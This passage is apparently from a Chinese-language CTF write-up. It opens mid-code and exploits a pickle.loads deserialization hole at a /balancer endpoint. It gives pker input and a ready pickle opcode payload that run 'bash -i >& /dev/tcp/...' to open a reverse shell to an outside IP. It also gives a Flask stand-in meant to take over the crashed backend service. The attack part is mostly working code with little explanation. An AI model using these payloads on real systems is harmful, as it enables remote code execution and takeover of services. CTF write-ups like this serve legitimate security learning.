```python
def index():
    return open('source.txt',"r").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)


```

在`/balancer`中利用`pickle.loads`的反序列化漏洞

### 解法1

直接利用反序列化来getshell

这儿的`opcode`可以利用[pker工具](https://github.com/EddieIvan01/pker)来写

pker：

```
system=GLOBAL('os', 'system')
system('bash -c "bash -i >& /dev/tcp/192.168.11.21/8888 0>&1"')
return
```

然后：

```
python3 pker.py < test/crash
```

![image-20220807180548465](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220807180548465.png)

就可以生成opcode

```txt
payload=b'(cos\nsystem\nX\x36\x00\x00\x00bash -c "bash -i >& /dev/tcp/xx.xxx.xxx.xxx/8888 0>&1"o.'
print(base64.b64encode(payload))
```

上线后flag需要提权，但是没有能利用的方式

上线后一直502，看起来他自己python服务崩了，504是后端服务超时，502是后端服务崩掉了，写个恶意的flask替换掉本来的后端服务，nginx是一直在的

```PYTHON
from flask import Flask

app = Flask(__name__, static_url_path='')

@app.route('/', methods=['GET', 'POST'])
def index():
    import time
    time.sleep(300)
    return ""

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```
